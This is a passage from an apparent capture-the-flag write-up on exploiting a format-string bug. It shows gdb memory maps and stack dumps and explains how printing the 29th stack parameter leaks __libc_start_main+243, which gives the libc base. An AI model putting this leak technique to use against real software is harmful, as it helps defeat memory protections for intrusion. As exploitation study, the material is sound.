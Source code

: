 ```shell
      0x7ffff7e13000     0x7ffff7f5c000   0x149000    0x26000 /usr/lib/x86_64-linux-gnu/libc-2.32.so
      0x7ffff7f5c000     0x7ffff7fa7000    0x4b000   0x16f000 /usr/lib/x86_64-linux-gnu/libc-2.32.so
      0x7ffff7fa7000     0x7ffff7fa8000     0x1000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.32.so
      0x7ffff7fa8000     0x7ffff7fab000     0x3000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.32.so
      0x7ffff7fab000     0x7ffff7fae000     0x3000   0x1bd000 /usr/lib/x86_64-linux-gnu/libc-2.32.so
      0x7ffff7fae000     0x7ffff7fb4000     0x6000        0x0 
      0x7ffff7fcc000     0x7ffff7fd0000     0x4000        0x0 [vvar]
      0x7ffff7fd0000     0x7ffff7fd2000     0x2000        0x0 [vdso]
      0x7ffff7fd2000     0x7ffff7fd3000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.32.so
      0x7ffff7fd3000     0x7ffff7ff3000    0x20000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.32.so
      0x7ffff7ff3000     0x7ffff7ffc000     0x9000    0x21000 /usr/lib/x86_64-linux-gnu/ld-2.32.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /usr/lib/x86_64-linux-gnu/ld-2.32.so
      0x7ffff7ffd000     0x7ffff7fff000     0x2000    0x2a000 /usr/lib/x86_64-linux-gnu/ld-2.32.so
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

``` 
luckly one of libc address can find in the stack before printf and located in $RBP+8 =>0x00007ffff7e14e4a which is __libc_start_main+243
```shell
================48 word hex of RSP==================
0x7fffffffdee0: 0x61616161      0x61616161      0x61616161      0x61616161
....
0x7fffffffdf90: 0x00401230      0x00000000      0xf7e14e4a      0x00007fff
================48 word hex of RBP==================
0x7fffffffdf90: 0x00401230      0x00000000      0xf7e14e4a      0x00007fff <==__libc_start_main+243
0x7fffffffdfa0: 0xffffe088      0x00007fff      0xf7e14c27      0x00000001
....
0x7fffffffe040: 0x00000000      0x00000000      0x004010b0      0x00000000
================next 5 instruction==================
=> 0x4011eb <main+85>:  call   0x401090 <printf@plt>
   0x4011f0 <main+90>:  mov    DWORD PTR [rip+0x2e4e],0x0        # 0x404048 <x>
   0x4011fa <main+100>: lea    rdi,[rip+0xe09]        # 0x40200a
   0x401201 <main+107>: call   0x401070 <puts@plt>
   0x401206 <main+112>: mov    eax,0x0
****************************************************
```

**0x7ffff7e14d60 - 0x00007ffff7e14e4a** offset is 243 to **__libc_start_main**

```shell
(gdb) info address __libc_start_main
Symbol "__libc_start_main" is a function at address 0x7ffff7e14d60.
```

so the way to leak libc address is pretty clear, we have to print the **29th** parameter of the stack and also assign 
detail can be found on [PLT and GOT](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)  
